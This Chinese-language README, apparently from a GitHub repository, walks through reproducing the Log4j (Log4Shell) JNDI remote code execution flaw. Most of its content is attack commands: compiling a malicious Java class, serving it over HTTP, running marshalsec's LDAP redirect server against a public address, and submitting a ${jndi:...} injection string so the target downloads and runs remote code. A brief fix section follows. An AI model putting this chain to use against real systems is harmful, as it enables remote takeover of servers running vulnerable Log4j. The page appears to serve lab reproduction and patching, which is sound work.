 # Apache-Log4j
Apache Log4j 远程代码执行

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

### 触发步骤


1. 先编译Log4jRCE，这个是恶意java代码,需要预先编译成恶意java类。注意不要用版本太高的jdk编译，不然jdk低版本的靶机可能无法执行。随后启动http server
   1. 编译 `javac Log4jRCE.java`
   2. 启动一个http server，python或php均可快速启动，如`php -S 0.0.0.0:8888`

2. 使用marshalsec的ldap server，访问这个ldap server内的任意资源都会被自动转发到http server的固定资源，这里需要转发到http server中的恶意java类文件
   1. 先clone这个项目`git clone https://github.com/mbechler/marshalsec.git`
   2. cd切换进这个项目内`cd marshalsec`
   3. 构建项目jar包`mvn clean package -DskipTests`
   4. 启动ldap server并配置转发到之前启动的http server内的资源（原理是访问这个ldap服务的任意路由，都会获得http server内的一个固定资源） `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://(这里写http server在公网上的地址及端口)/#Log4jRCE"`
      此时对靶机提交${jndi:idap://ip:port/{随便写}}即可，ldap server会自动从http server中下载指定资源并返回给靶机。
3. log4j.java是一个简单的漏洞环境实现，在代码中对应位置写好ldap的地址即可。底层原理就是靶机会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

### 修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true
